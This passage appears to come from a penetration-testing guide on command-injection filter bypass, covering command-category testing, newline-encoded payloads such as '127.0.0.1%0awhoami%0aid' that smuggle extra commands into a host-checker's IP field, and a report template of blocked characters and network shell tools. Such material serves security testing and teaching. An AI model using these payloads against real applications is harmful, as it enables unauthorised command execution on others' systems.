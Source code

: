 **Phase 2: Command Testing**
```bash
# Test command categories
✅ Basic: whoami id ls cat
✗ Network: nc netcat telnet  
✗ Shells: sh bash zsh
? File: head tail grep awk
```

**Phase 3: Payload Optimization**
```bash
# Build working payload using allowed characters
Base: 127.0.0.1%0awhoami
Extended: 127.0.0.1%0awhoami%0aid
Complex: 127.0.0.1%0a/usr/bin/whoami%0a/usr/bin/id
```

### Documentation Template

**Filter Analysis Report:**
```markdown
## Target: Host Checker Application

### Allowed Characters:
- Alphanumeric: a-z A-Z 0-9 ✅
- Special: . space ( ) ✅  
- Separators: \n (\r?) ✅
- Encoding: URL encoding ✅

### Blocked Characters:
- Operators: ; & | && || ✗
- Substitution: ` $ $() ✗
- [Additional testing needed for: \r \t \v \f]

### Allowed Commands:
- System info: whoami id ✅
- File operations: [testing needed]
- Network: [testing needed]

### Working Payloads:
- Basic: 127.0.0.1%0awhoami
- Multi-command: 127.0.0.1%0awhoami%0aid
```

---

## Common Filter Patterns

### Application-Level Filters

**Simple Blacklist:**
- Blocks common injection characters
- Case-sensitive string matching
- No context awareness
- Easy to bypass with alternatives
